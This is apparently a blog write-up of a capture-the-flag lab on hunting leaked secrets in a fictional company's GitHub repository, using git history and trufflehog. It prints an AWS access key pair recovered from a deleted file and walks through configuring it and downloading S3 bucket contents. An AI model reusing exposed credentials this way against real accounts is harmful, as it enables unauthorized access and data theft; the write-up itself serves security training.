 ```yaml
---
layout: post
title:  "Hunt for Secrets in Github Repositories"
date:   2024-01-07 21:39:54 +0530
categories: CTFs
---
```


# Initial Entry Point
  

| Repo Name |
| --- |
| [https://github.com/huge-logistics/cargo-logistics-dev](https://github.com/huge-logistics/cargo-logistics-dev) |

  

## Scenario

  

While conducting OSINT on a lesser-known dark web forum as part of assessing your client's threat landscape, you stumble upon a thread discussing high-value targets. Among the chaos of links and boasts, a user casually mentions discovering an intriguing GitHub repository belonging to your client, the international titan, Huge Logistics. A couple of underground researchers hint at having found something but remain cryptic. Your instincts tell you there's more to uncover. Your objective? Dive deep into this repository, trace any associated infrastructure, and uncover any vulnerabilities before they become tomorrow's headline. The clock is ticking. Will you outsmart the adversaries?

  

## To be more clear

We have to assess the organization github repository for any possibility of credentials leakage where we gonna try it out in both the manual and automated way 

  

## Let’s start out with the manual approach 

  

First and foremost, we will clone the github repository using the command `git clone https://github.com/huge-logistics/cargo-logistics-dev`and let’s start out our analysis process

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % git clone https://github.com/huge-logistics/cargo-logistics-dev
Cloning into 'cargo-logistics-dev'...
remote: Enumerating objects: 1578, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 1578 (delta 2), reused 2 (delta 1), pack-reused 1571
Receiving objects: 100% (1578/1578), 50.12 MiB | 4.96 MiB/s, done.
Resolving deltas: 100% (448/448), done.
```

  

After cloning and going into that repo, we can run `git log`  in order to check for any sensitive actions being performed like where they had deleted or removed any files and found there is action been performed which is `Delete log-s3-test directory` and with commit hash as `ea1a7618508b8b0d4c7362b4044f1c8419a07d99`

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % git log
commit 327256a97593085dcee75e70df5f80c51a30c267 (HEAD -> main, origin/main, origin/HEAD)
Author: Ian Austin <iandaustin@outlook.com>
Date:   Wed Jul 5 17:56:49 2023 +0100

    Update

commit ea1a7618508b8b0d4c7362b4044f1c8419a07d99
Author: egre55 <34132245+egre55@users.noreply.github.com>
Date:   Wed Jul 5 17:46:16 2023 +0100

 Delete log-s3-test directory
```

  

Suspecting the particular action, we can able to view the log using the command `git show`  along with the commit hash which shows that there is big change been made and where the `AWS Access key`  and `Secret key`  being disclosed in the following filename `a/log-s3-test/log-upload.php`

  

![]({{ site.baseurl }}/assets/images/gitleaks-1.png) 

  

Well, let’s configure the following credentials through `awscli`  and with custom profile called `gitleaks`  

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws configure --profile gitleaks
AWS Access Key ID [None]: AKIAWHEOTHRFSGQITLIY
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

  

After configuring the credentials, we found that is credentials belongs to `dev-test`  through `aws sts`  module 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws sts get-caller-identity --profile gitleaks
{
    "UserId": "AIDAWHEOTHRF24EMR3SXJ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/dev-test"
}
```

  

What can we do with that credentials ? we know that it belongs to user called `dev-test`  but onething to note is we didn’t observe that this user have access to s3 bucket named `huge-logistics-transact` where you can check it into the git logs again and this are the lines of the code for your reference if you feel lazy to scroll up 

  

```diff
-// Send a PutObject request and get the result object.
-$key = 'transact.log';
-
-$result = $s3->putObject([
-       'Bucket' => 'huge-logistics-transact',
-       'Key'    => $key,
-       'SourceFile' => 'transact.log'
-]);
-
-// Print the body of the result by indexing into the result object.
-var_dump($result);
```

  

Enumerating s3 bucket using `aws s3`  module in `aws cli`  with the following command `aws s3 ls s3://huge-logistics-transact` and well we forgot we need to include `--profile gitleaks`  where we initially created a custom profile with the leaked credentials we have.. we found our `flag.txt`  here and through the `aws s3 cp`  we can copy it to our local machine 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 ls s3://huge-logistics-transact --profile gitleaks
2023-07-05 21:23:50         32 flag.txt
2023-07-04 22:45:47          5 transact.log
2023-07-05 21:27:36      51968 web_transactions.csv
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 cp s3://huge-logistics-transact/flag.txt ./ --profile gitleaks
download: s3://huge-logistics-transact/flag.txt to ./flag.txt    
nits@FWS-CHE-LT-8869 cargo-logistics-dev % cat flag.txt
fe108d6a1a0937b0a7620947a678aabf%     
```

  

Well, It doesn’t end here we can also look into file named `web_transcations.csv`  and found that it is disclosing some kind of sensitive informations like `ip address, name and id of the user`  which is obviously not meant to be 

  

![]({{ site.baseurl }}/assets/images/gitleaks-2.png) 
  

  

## Automated way of finding the leaks 

  

We can use a tool called `trufflehog`  well In my case, I’m using MacOS where you can install using the command `brew install trufflehog`  or you can also use `gitleaks`

  

![]({{ site.baseurl }}/assets/images/gitleaks-3.png) 


  

Now run the following trufflehog git `https://github.com/huge-logistics/cargo-logistics-dev` and In the matter of seconds, we found our verified results with the valid username that those credentials belongs to well in our case, It is `dev-test` 

  

![]({{ site.baseurl }}/assets/images/gitleaks-4.png) 
 

  

Well the learning outcome is , That’s how we can analyse the organization github repo which are exposed externally for secret keys and In conclusion, we have to reduct our keys if you are deleting the file and rotate the leaked credentials